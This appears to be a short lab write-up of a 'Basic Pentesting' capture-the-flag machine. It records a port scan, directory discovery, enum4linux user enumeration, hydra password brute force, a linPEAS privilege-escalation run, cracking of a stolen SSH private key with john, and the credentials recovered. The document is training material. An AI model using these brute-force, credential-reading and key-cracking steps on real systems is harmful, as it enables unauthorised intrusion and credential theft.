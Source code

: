 # Basic Pentesting
- IP: 10.10.152.53

## Open ports
```
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
8009/tcp open  ajp13
8080/tcp open  http-proxy
```

## Port 80 (dirbuster)
- Using dirbuster:
|_development
  |_dev.txt -> INFO: SMB, Apache configured
  |_j.txt -> SEVERE: User "j" has easy password

## Credentials (enum4linux, hydra)
- `kay:?`
  - Username found by enum4linux
  - private rsa key
- `jan:armando`
  - Username found by enum4linux
  - Password found by hydra

## Privilege Escalation (linPEAS)
- [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
  - Using
    -  `scp my/file/linpeas.sh jan@10.10.152.53:/dev/shm`
    -  `chmod +x linpeas.sh`
    -  `./linpeas.sh | tee linlog.txt`
  - Found
    - User `kay` has interesting pass.bak file (jan has no read rights)
    - User `kay` has readable rsa private key in `/home/kay/.ssh/id_rsa
      - Password protected:
        - `ssh2john kay_id_rsa > rsajohn.txt`
        - `john rsajohn.txt --wordlist=usr/share/wordlists/rockyou.txt`
	- Password: beeswax

## SSH Login User `kay`
- `cat pass.bak`
  - __heresareallystrongpasswordthatfollowsthepasswordpolicy$$__

SOLVED
